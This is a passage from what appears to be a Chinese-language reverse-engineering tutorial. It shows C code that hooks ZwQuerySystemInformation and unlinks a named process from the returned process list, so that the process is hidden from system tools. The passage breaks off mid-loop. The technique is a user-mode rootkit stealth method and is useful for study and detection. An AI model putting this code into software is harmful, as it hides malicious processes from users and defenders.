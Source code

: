 ```c
    // 恢复内存属性
    VirtualProtect((LPVOID)pFunc, 5, dwOldProtect, &dwOldProtect);

    return TRUE;
}
```

​	6. `NewZwQuerySystemInformation()`:

```c
NTSTATUS WINAPI NewZwQuerySystemInformation(
                SYSTEM_INFORMATION_CLASS SystemInformationClass, 
                PVOID SystemInformation, 
                ULONG SystemInformationLength, 
                PULONG ReturnLength)
{
    NTSTATUS status;
    FARPROC pFunc;
    PSYSTEM_PROCESS_INFORMATION pCur, pPrev;
    char szProcName[MAX_PATH] = {0,};
    
    // 开始前先"脱钩"
    unhook_by_code(DEF_NTDLL, DEF_ZWQUERYSYSTEMINFORMATION, g_pOrgBytes);

    // 调用原始API
    pFunc = GetProcAddress(GetModuleHandleA(DEF_NTDLL), 
                           DEF_ZWQUERYSYSTEMINFORMATION);
    status = ((PFZWQUERYSYSTEMINFORMATION)pFunc)
              (SystemInformationClass, SystemInformation, 
              SystemInformationLength, ReturnLength);

    if( status != STATUS_SUCCESS )
        goto __NTQUERYSYSTEMINFORMATION_END;

    // 仅针对SystemProcessInformation类型操作
    if( SystemInformationClass == SystemProcessInformation )
    {
        // SYSTEM_PROCESS_INFORMATION 类型转换
        // pCur 是单向链表的头
        pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;

        while(TRUE)
        {
            // 比较进程名称
            // g_szProcName 为要隐藏的进程名称
            // (在SetProcName()设置)
            if(pCur->Reserved2[1] != NULL)
            {
                if(!_tcsicmp((PWSTR)pCur->Reserved2[1], g_szProcName))
                {
                    // 从链表中删除隐藏进程的节点
                    if(pCur->NextEntryOffset == 0)
                        pPrev->NextEntryOffset = 0;
                    else
                        pPrev->NextEntryOffset += pCur->NextEntryOffset;
                }
                else		
                    pPrev = pCur;
            }

            if(pCur->NextEntryOffset == 0)
                break;

            // 链表的下一项
```